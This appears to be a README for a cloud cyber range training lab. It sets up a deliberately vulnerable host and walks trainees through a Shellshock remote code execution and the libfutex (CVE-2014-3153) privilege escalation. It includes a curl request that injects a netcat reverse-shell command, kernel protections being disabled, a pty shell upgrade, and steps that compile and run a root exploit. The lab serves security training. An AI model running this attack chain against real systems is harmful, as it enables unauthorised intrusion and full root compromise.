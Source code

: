 # Google Cloud Platform Cyber Range 

# Shell Shock / libfutex Privilege Escalation Example
  
This scenario can be used to train operators to leverage a Shell Shock vulnerability in a PHP web page, along with the 'libfutex' Local Privilege Escalation.

https://www.exploit-db.com/exploits/35146
https://www.exploit-db.com/exploits/35370

## Scenario features

| Feature | Availability | Implemented With |
| --- | ---| --- |
| Targets | Yes | GCE |
| Attackers | Yes | GCE |
| VPC | Yes | VPC |
| Network logs | Yes | VPC Flow Logs |
| PCAPs | No | - |

## Artifacts

* [Terraform Build script](main.tf)
* [Terraform Variables file](terraform.tfvars)
* [Blue Ansible playbook](blue35370.yml)

## Instructions

1. Login to https://console.cloud.google.com/
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/MikeStorrs/cyber.git
cd cyber
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply

  Enter a value: yes
```

5. SSH to the blue instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Accept SSH Key Generation and Set SSH Passphrase

```
Do you want to continue (Y/n)?  Y
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): <PASSPHRASE>
Enter same passphrase again: <PASSPHRASE>
```

7. Clone the meetup, cyber-range-target, and exploit-curation repos

```
git clone https://github.com/MikeStorrs/cyber.git
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
sudo ansible-playbook cyber/blue35370.yml > ~/ansible.out
```

9. Wait for the instance to reboot, then re-log in and remove Supervisor Mode Access Prevention and (NOTE NEED TO ADD nosmap / nosmep to Ansible Script)

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo grubby --args "nosmap nosmep" --update-kernel /boot/vmlinuz-3.10.0-123.1.2.el7.x86_64
sudo reboot
```

10. Now relogin and scan for exploitable vulnerabilities with `lem`

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo pip install lem
sudo lem host assess --curation exploit-curation --kind stride --score 090000
sudo lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
sudo mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell tabs and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the 10.150.0.3 IP address with your blue-35370 Internal IP and the 10.150.0.2 with your red-1 Internal IP.

```
curl -X GET 'http://10.150.0.3/index.php?cmd=nc%20-nv%2010.150.0.2%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a connection to `blue-35370`. Use this Python trick to get a tty and invoke a Bourne shell.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Inside the new shell, Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. 

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```